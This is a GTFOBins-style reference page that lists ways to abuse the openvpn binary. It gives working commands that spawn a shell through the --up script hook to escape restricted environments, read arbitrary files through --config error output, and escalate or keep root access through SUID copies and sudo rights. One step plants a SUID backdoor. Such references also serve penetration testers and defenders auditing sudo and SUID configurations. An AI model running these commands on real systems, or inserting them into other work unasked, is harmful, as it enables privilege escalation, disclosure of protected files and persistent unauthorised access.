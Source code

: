 # GTFOBin: openvpn

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is actually parsed and the first partial wrong line is returned in an error message.

```
LFILE=file_to_read
openvpn --config "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which openvpn) .

./openvpn --dev null --script-security 2 --up '/bin/sh -p -c "sh -p"'
```

The file is actually parsed and the first partial wrong line is returned in an error message.

```
sudo install -m =xs $(which openvpn) .

LFILE=file_to_read
./openvpn --config "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

The file is actually parsed and the first partial wrong line is returned in an error message.

```
LFILE=file_to_read
sudo openvpn --config "$LFILE"
```